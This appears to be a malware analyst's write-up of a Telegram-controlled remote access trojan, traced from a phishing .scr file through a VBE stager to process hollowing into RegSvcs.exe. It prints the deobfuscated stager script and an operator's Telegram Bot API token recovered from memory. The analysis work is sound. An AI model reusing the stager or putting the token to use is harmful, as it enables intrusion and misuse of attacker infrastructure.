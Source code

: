 ```yaml
---
tags: RATs
---
```

## Telegram RAT - DynamicAnalysis

The Telegram Bot API is often abused by threat actors as a means of command and control. ToxicEye is a notable group that have been reported using Telegram to distribute ransomware to infected systems.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fc12c17c-2a8c-4b15-b042-f83659e03b32)

Full command execution can be achieved through the use of Telegram.

The sample we're looking at in this example is a .scr file which was seen masquerading as a payment slip, sent to the victim in a phishing email.

Upon execution, we observed multiple file writes to the 'C:\Users\user\AppData\Local\Temp\ckil' directory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0bf995f7-d399-456a-936e-463a76d0dc79)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8a9201bf-f17d-408e-9e86-6de272b1198b)

Multiple suspicious files are written to this directory.

Following the execution chain from the initial .scr file, we see a process creation event for wscript with the following command line.
```
"C:\Windows\System32\wscript.exe" Update-fv.q.vbe
```
_Contents of Update-fv.q.vbe_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4a4a4200-5a2a-4f83-b010-330336724efc)


The VBE file contains a lot of garbage strings, we can throw it into CyberChef and use the following operators to make more sense of it

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f79b34b7-4b46-4b70-9692-d173545463dc)

Output:
```
on error resume nextWScript.Sleep n_j_feSub n_j_feWScript.Sleep  8000End Subsivnehjsfs = "vfkxqlmq.xml"iwxjoanjprnnpn = "xohfpemfj.pif"fsmulsdthu = "WScript.Shell" Set cmglbwkfeao = WScript.CreateObject(fsmulsdthu )vumdhedmernke = iwxjoanjprnnpn  " "  sivnehjsfscmglbwkfeao.Run vumdhedmernke
```
A few of the files written previously are referenced, most notably: xohfpemfj.pif, as this is next in the execution chain

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/83be4ee6-d9e6-4668-8b4f-d79cc739d348)

This .pif file is actually an executable which seems to attempt to masquerade as Telegram.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5d0d8f41-fd8e-4257-8a02-ebe7b0d3d6ab)

Strings indicate this is an AutoIT binary

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c96e9558-02c7-4f53-b8b9-eed8296c38d8)


There are also some indications of process injection / hollowing present within this binary.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/356e8d2d-5639-4619-a2c9-d67b4ecf9355)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/689535d5-b927-4d3f-8655-455fc523dbfd)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7fc43795-a8dc-4863-8a95-209d9900b6c4)

Back to following the execution chain, we can see that xohfpemfj.pif spawns RegSvcs.exe.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fc9512dd-b7c5-4e23-a331-cf5f32954bd5)

This is the legitimate Windows binary, but it was created by the suspicious xohfpemfj process and is being abused as a means of process hollowing into a legitimate process.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7a30f6b9-fe1d-4584-bdcb-e82302246e61)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b99e8393-d8c9-4ef7-a4ef-f24f9fdf9218)

Using Process Hacker, we can interrogate the memory of this process and try to find some interesting things. We start by filtering for "HTTP" to search for any network traffic, and we do see results for api.telegram.com, so we'll change our filter to Telegram to identify the following strings:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5825edf8-3f3d-4b15-bb5d-ff50619cf7e7)

Looks like we're able to get the Bot API Key from one of these strings, which appears to be "6050257799:AAFHIZowkIt9yf7Vbe1qSQ_LYisLTkZAj4c"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e08cf4f-6e37-4918-8133-78b5bcee6f13)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f70ff47-78c0-4673-aaee-0329f8ae55a8)



